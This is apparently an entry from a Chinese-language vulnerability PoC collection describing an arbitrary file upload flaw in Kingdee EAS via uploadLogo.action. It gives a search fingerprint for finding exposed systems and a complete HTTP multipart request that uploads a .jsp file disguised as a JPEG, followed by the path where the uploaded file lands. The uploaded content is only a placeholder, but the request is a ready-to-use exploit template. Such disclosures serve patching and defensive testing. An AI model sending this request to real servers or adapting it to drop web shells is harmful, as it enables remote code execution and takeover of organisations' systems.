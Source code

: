 # 金蝶OA EAS系统 uploadLogo.action 任意文件上传漏洞

## 漏洞描述

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS 及 EAS Cloud&nbsp; 在 uploadLogo.action 存在文件上传漏洞，攻击者可以利用文件上传漏洞执行恶意代码、写入后门、读取敏感文件，从而可能导致服务器受到攻击并被控制。

## 漏洞影响

<a-checkbox checked>金蝶OA EAS系统 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"/easportal/" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697158962220-979a854c-fe16-4239-82f2-c1dbdbba2072.png)

验证POC

```plain
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycxkT8bV6WLIUzm2p

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="chooseLanguage_top"
ch

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="dataCenter"

xx
------WebKitFormBoundarycxkT8bV6WLIUzm2p 
Content-Disposition: form-data; name="insId"

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="type"

top
------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="upload"; filename="text.jsp"
Content-Type: image/jpeg

Test
------WebKitFormBoundarycxkT8bV6WLIUzm2p--
```

![img](../../../.vuepress/public/img/1697637525503-021b943d-4f9e-401a-afce-c2f4a8e7a109.png)

```plain
/portal/res/file/upload/xxx.jsp
```